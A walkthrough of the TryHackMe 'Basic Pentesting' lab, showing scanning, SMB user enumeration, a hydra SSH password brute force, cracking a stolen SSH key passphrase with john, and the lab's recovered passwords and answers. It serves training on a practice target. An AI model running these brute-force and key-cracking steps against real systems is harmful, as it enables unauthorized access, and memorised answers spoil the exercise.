


> https://tryhackme.com/room/basicpentestingjt

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

## Walkthrough

Run autorecon first in background

```bash
┌──(kali㉿kali)-[~]
└─$ sudo $(which autorecon) 10.10.173.48
[*] Scanning target 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/80 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/139 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/445 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/22 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/8080 on 10.10.173.48
...
```

Enumerate manually on port

```bash
nmap --script intrusive -p 22 -vv 10.10.173.48
```

## What is the name of the hidden directory on the web server(enter name without /)?

```bash
┌──(kali㉿kali)-[~/thm]
└─$ feroxbuster -u http://10.10.173.48 --burp
...
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       10l       24w      158c http://10.10.173.48/
301      GET        9l       28w      318c http://10.10.173.48/development => http://10.10.173.48/development/
200      GET        7l       42w      235c http://10.10.173.48/development/j.txt
200      GET        9l       89w      483c http://10.10.173.48/development/dev.txt
...
```

> development

## What is the username?





According to the above info:
- SMB worth a try
- User with code `J` have weak password

```bash
┌──(kali㉿kali)-[~/thm]
└─$ enum4linux 10.10.173.48 -a | tee enum5linux.log
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
```

> jan

## What is the password?

After knowing the unix username, bruteforce `ssh` instead of `smb` because it's faster

```bash
┌──(kali㉿kali)-[~/thm]
└─$ hydra -l jan -P /opt/wordlists/rockyou.txt 10.10.173.48 ssh
...
[22][ssh] host: 10.10.173.48   login: jan   password: armando
...
```

## What service do you use to access the server(answer in abbreviation in all caps)?

> ssh

## What is the name of the other user you found(all lower case)?

> kay

## Enumerate the machine to find any vectors for privilege escalation

```bash
┌──(kali㉿kali)-[~/thm]
└─$ sshpass -p armando ssh -o "StrictHostKeyChecking no" jan@10.10.31.182
...
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ vi private.key

┌──(kali㉿kali)-[~/thm]
└─$ chmod 600 private.key

┌──(kali㉿kali)-[~/thm]
└─$ ssh kay@10.10.31.182 -i private.key
Enter passphrase for key 'private.key':
```

It's requesting for password

Crack it with john

```bash
┌──(kali㉿kali)-[~/thm]
└─$ ssh2john private.key > private.key.hash

┌──(kali㉿kali)-[~/thm]
└─$ john private.key.hash --wordlist=/opt/wordlists/rockyou.txt
...
beeswax          (private.key)
...
```

## What is the final password you obtain?

Login

```bash
┌──(kali㉿kali)-[~/thm]
└─$ ssh kay@10.10.31.182 -i private.key
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$